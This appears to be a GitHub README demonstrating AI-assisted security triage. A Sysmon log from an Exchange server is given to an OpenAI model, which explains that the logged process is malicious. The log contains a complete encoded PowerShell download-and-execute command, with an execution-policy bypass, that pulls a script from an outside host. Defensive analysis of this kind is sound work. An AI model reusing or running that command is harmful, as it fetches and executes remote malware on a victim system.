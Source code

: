 # star-ai-examples

***1. Suspicious Event Unpacking and Explanation***

`OpenAI prompt: please analyze the suspicious event below and explain what's going on.`

<14>Mar 10 07:21:45 mail1.ionxsecure.com MSWinEventLog  1   Microsoft-Windows-Sysmon/Operational    60  Wed Mar 10 07:21:45 2021    1   Microsoft-Windows-Sysmon    SYSTEM  User    Information mail1.ionxsecure.com    Process Create (rule: ProcessCreate)        Process Create:  RuleName: technique_id=T1059.003,technique_name=Windows Command Shell  UtcTime: 2021-03-10 13:21:45.504  ProcessGuid: {B2FBB6B8-C7E9-6048-1F25-000000001D00}  ProcessId: 12816  Image: C:\Windows\System32\cmd.exe  FileVersion: 10.0.14393.0 (rs1_release.160715-1616)  Description: Windows Command Processor  Product: Microsoft® Windows® Operating System  Company: Microsoft Corporation  OriginalFileName: Cmd.Exe  CommandLine: "cmd.exe" /c powershell -ep bypass -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcAAuAGUAcwB0AG8AbgBpAG4AZQAuAGMAbwBtAC8AcAA/AGUAJwApAA==  CurrentDirectory: c:\windows\system32\inetsrv\  User: NT AUTHORITY\SYSTEM  LogonGuid: {B2FBB6B8-1CF1-6043-E703-000000000000}  LogonId: 0x3E7  TerminalSessionId: 0  IntegrityLevel: System  Hashes: SHA1=99AE9C73E9BEE6F9C76D6F4093A9882DF06832CF,MD5=F4F684066175B77E0C3A000549D2922C,SHA256=935C1861DF1F4018D698E8B65ABFA02D7E9037D8F68CA3C2065B6CA165D44AD2,IMPHASH=3062ED732D4B25D1C64F084DAC97D37A  ParentProcessGuid: {B2FBB6B8-1DC2-6043-A300-000000001D00}  ParentProcessId: 10400  ParentImage: C:\Windows\System32\inetsrv\w3wp.exe  ParentCommandLine: c:\windows\system32\inetsrv\w3wp.exe -ap "MSExchangeOWAAppPool" -v "v4.0" -c "C:\Program Files\Microsoft\Exchange Server\V15\bin\GenericAppPoolConfigWithGCServerEnabledFalse.config" -a \\.\pipe\iisipm6ad061fd-1d32-4f0c-9631-cc382e98f5ef -h "C:\inetpub\temp\apppools\MSExchangeOWAAppPool\MSExchangeOWAAppPool.config" -w "" -m 0   19182

*OpenAI Response: This event is a process creation event generated by Sysmon. It appears that a Windows Command Shell (cmd.exe) was created with parameters to run a Powershell script. The process was created by user NT AUTHORITY\SYSTEM and it is likely that the system was compromised and the attacker is running a malicious script.*

`OpenAI prompt: analyze the parameters and the powershell script, decode the base64 argument, and explain what the script does.`

*OpenAI Response: The parameters of the Powershell script indicate that the script is attempting to bypass security restrictions and execute arbitrary code. The base64 argument is likely a payload containing malicious code. After decoding the base64 argument, it appears that the script is attempting to download a file from a remote source and then execute it. This type of attack is often used to download and execute malware on the system.*
